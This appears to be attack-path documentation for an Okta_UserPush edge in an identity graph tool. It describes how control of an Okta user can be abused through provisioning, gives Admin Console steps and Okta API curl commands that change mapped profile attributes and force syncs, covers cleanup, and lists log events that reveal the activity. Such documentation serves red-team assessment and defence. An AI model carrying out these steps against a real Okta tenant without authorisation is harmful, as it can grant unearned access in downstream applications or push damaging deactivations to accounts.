

## General Information

The non-traversable Okta_UserPush edges represent user provisioning relationships from Okta to external applications. When configured, Okta can create, update, reactivate, or deactivate user accounts in integrated applications using protocols such as SCIM or LDAP.



## Abuse Info

This edge describes provisioning from an Okta user to an external application. An attacker who controls the source Okta user can cause Okta to create, update, reactivate, or maintain the corresponding destination account in the external application. The edge is non-traversable because user provisioning does not guarantee privilege by itself, but it can turn Okta user control into downstream application access.

The attacker can abuse this edge by launching the app, changing synced profile attributes, forcing a provisioning sync through app-user lifecycle actions, or causing the source user to be reassigned. The impact depends on the downstream app's provisioning settings and profile mappings.

Using the Okta dashboard and Admin Console:

1. Authenticate as the source Okta user or gain an admin path that can manage the source user's profile and application assignment.
2. Confirm that the source user is assigned to the destination application.
3. Open the destination application through the Okta end-user dashboard, or use the Admin Console to review the user's assignment under the destination app.
4. If the downstream account does not exist yet, trigger provisioning by assigning or reassigning the user, launching the app, or using the app's provisioning action for that user.
5. If privilege depends on profile attributes, modify mapped Okta profile fields such as title, department, cost center, manager, username, or email before sync.
6. Wait for provisioning or trigger a user sync, then sign in to the downstream application through Okta SSO.
7. If the downstream application allows direct login or account recovery, use the provisioned email, username, or profile data to attempt downstream account recovery.

Using the Okta API:

1. Set the Okta org URL, API credential, source user ID, and destination application ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_USER_ID="00u..."
    export TARGET_APP_ID="0oa..."
    export ORIGINAL_DEPARTMENT="Engineering"
    export TEMP_DEPARTMENT="Finance"
    ```

2. Verify the source user's current Okta profile.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

3. Verify the user's application assignment and provisioning state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID" \
      | jq '{id, status, scope, syncState, profile}'
    ```

4. If the abuse depends on a mapped profile attribute, update the Okta source user. Preserve unrelated profile fields required by the org's schema.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"profile\":{\"department\":\"$TEMP_DEPARTMENT\"}}" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID" \
      | jq '{id, status, login: .profile.login, department: .profile.department}'
    ```

5. Trigger synchronization for the application user.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID/lifecycle/sync"
    ```

6. Verify that Okta now reports the app-user assignment and sync state expected for the operation.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID" \
      | jq '{id, status, scope, syncState, profile}'
    ```

7. Verify the downstream account, group, or role through the destination application's API or admin UI. Okta can show the assignment and sync request, but the target app is the authority for whether the account was created, updated, or granted access.

This edge can also support destructive abuse. If the attacker can deactivate the source user, remove the app assignment, or change mapped attributes, Okta may push deactivation or damaging profile changes to the destination account.

## Cleanup after Abuse

Cleanup for `Okta_UserPush` means restoring the Okta source user's profile, lifecycle state, and application assignment, then synchronizing again so the downstream application removes temporary account, attribute, or role changes.

Cleanup using Admin Console:

1. Restore the source user's profile fields under **Directory** > **People**.
2. Restore the source user's lifecycle state and application assignment if either was changed.
3. Open the destination application and review the user's assignment and provisioning state.
4. Trigger provisioning for the user where available, or wait for the next provisioning cycle.
5. Verify in the downstream application that temporary accounts, roles, groups, or profile changes are gone.
6. Revoke Okta and downstream sessions if the pushed account was used.

Cleanup using API:

1. Restore any Okta profile fields changed to influence provisioning.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"profile\":{\"department\":\"$ORIGINAL_DEPARTMENT\"}}" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID" \
      | jq '{id, status, login: .profile.login, department: .profile.department}'
    ```

2. Trigger another app-user sync so the downstream application receives the restored state.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID/lifecycle/sync"
    ```

3. Remove a temporary application assignment if assignment itself was created only for the operation.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID"
    ```

4. Revoke Okta sessions and OAuth tokens for the source user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the final app-user state in Okta and in the downstream application.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$SOURCE_USER_ID" \
      | jq '{id, status, scope, syncState, profile}'
    ```

## Opsec Considerations

Okta and the downstream application can both record provisioning activity. Relevant Okta events include application user membership changes and provisioning events such as `application.provision.user.push`, `application.provision.user.push_profile`, `application.provision.user.update`, `application.provision.user.deactivate`, and `application.provision.user.reactivate`.

Profile changes made shortly before a provisioning sync are easy to correlate. Pushing unusual values to high-value SaaS applications, reactivating dormant downstream accounts, or repeatedly forcing app-user syncs can stand out in both Okta and destination application logs.

## References

- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta User API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/User/)
- [Okta User Lifecycle API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserLifecycle/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta SCIM concepts](https://developer.okta.com/docs/concepts/scim/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
